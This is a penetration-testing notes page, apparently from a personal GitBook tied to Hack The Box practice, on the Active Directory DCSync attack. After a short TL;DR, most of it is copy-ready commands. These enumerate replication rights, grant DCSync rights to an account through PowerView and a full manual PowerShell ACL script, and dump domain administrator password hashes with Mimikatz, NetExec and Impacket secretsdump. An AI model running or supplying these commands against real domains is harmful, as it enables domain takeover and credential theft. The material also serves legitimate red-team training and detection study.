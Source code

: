 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DCSync

## TL;DR

DCSync is late-phase attack that allows an attacker to **mimic a DC** and then dump `ntds.dit`. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

{% hint style="info" %}
**Domain/Enterprise Admins** have these rights by default.&#x20;

If we have **`WriteDacl`**rights over an account, we can assign **DCSync rights** to it.&#x20;

The **Windows Exchange Permissions** group has **DCSync rights**.

_Example:_[ _Forest_](../../../boxes/easy/forest.md#privilege-escalation)
{% endhint %}

## Attack

### Enumerate rights.

{% code overflow="wrap" %}
```powershell
# native, requires an elevated command prompt
dsacls "DC=domain,DC=local"
Get-DomainObjectAcl -Identity <USER> -Domain domain.local -ResolveGUIDs
```
{% endcode %}

### Assign DCSync rights

{% tabs %}
{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity <USER> -Rights DCSync
```
{% endcode %}
{% endtab %}

{% tab title="Manually" %}
{% code overflow="wrap" %}
```powershell
$acl = get-acl "ad:DC=domain,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=domain,DC=local"
```
{% endcode %}
{% endtab %}

{% tab title="DCSync.py" %}
{% code overflow="wrap" %}
```bash
DCSync.py -dc domain.local -t 'CN=<USER>,CN=Users,DC=domain,DC=local' 'domain.local\<USER>:<PASS>'
```
{% endcode %}
{% endtab %}
{% endtabs %}

Manual way explained [here](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md).

### Perform the DCSync attack.

{% tabs %}
{% tab title="Mimikatz" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
# or
mimikatz # lsadump::dcsync /domain:DOMAIN.LOCAL /user:DOMAIN\administrator
```
{% endtab %}

{% tab title="NetExec" %}
```bash
nxc smb 10.10.10.161 -u '<USER>' -p '<PASS>' --ntds --user administrator
```
{% endtab %}

{% tab title="Impacket" %}
{% code overflow="wrap" %}
```bash
impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}

For an example of a DCSync attack using `DCSync.py` -> `secretsdump.py` check [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting), or using NetExec [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#dcsync-attack).

## Resources

{% tabs %}
{% tab title="DCSync" %}
{% embed url="https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection" %}
A great article about the DCSync attack.
{% endembed %}
{% endtab %}

{% tab title="Secretsump" %}
{% embed url="https://www.youtube.com/watch?v=QfyZQDyeXjQ" %}
How Secretsdump script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="dsacls" %}
{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771151(v=ws.11)" %}
{% endtab %}
{% endtabs %}
